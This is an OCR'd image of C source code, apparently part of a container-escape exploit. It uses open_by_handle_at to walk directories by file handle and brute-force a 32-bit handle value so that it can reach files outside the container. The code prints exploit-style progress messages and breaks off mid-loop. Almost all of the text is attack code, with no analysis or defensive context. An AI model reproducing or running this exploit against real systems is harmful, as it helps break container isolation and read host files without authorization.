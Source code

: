 ```c

struct my_file_handle {
unsigned int handle_bytes;
int handle_type;
unsigned char f_handle[8];
};
void die(const char * msg) {
perror(msg);
exit(errno);
}
void dump_handle(const struct my_file_handle * h) {
fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,
h -> handle_type);
for (int i = 0; i < h -> handle_bytes; ++i) {
fprintf(stderr, "0x%02x", h -> f_handle[i]);
if ((i + 1) % 20 == 0)
fprintf(stderr, "\n");
if (i < h -> handle_bytes - 1)
fprintf(stderr, ", ");
}
fprintf(stderr, "};\n");
}
int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle *oh)
{
int fd;
uint32_t ino = 0;
struct my_file_handle outh = {
.handle_bytes = 8,
.handle_type = 1
};
DIR * dir = NULL;
struct dirent * de = NULL;
path = strchr(path, '/');
// recursion stops if path has been resolved
if (!path) {
memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));
oh -> handle_type = 1;
oh -> handle_bytes = 8;
return 1;
}
++path;
fprintf(stderr, "[*] Resolving '%s'\n", path);
if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)
die("[-] open_by_handle_at");
if ((dir = fdopendir(fd)) == NULL)
die("[-] fdopendir");
for (;;) {
de = readdir(dir);
if (!de)
break;
fprintf(stderr, "[*] Found %s\n", de -> d_name);
if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {
fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);
ino = de -> d_ino;
break;
}
}
fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
if (de) {
for (uint32_t i = 0; i < 0xffffffff; ++i) {
outh.handle_bytes = 8;
outh.handle_type = 1;
```
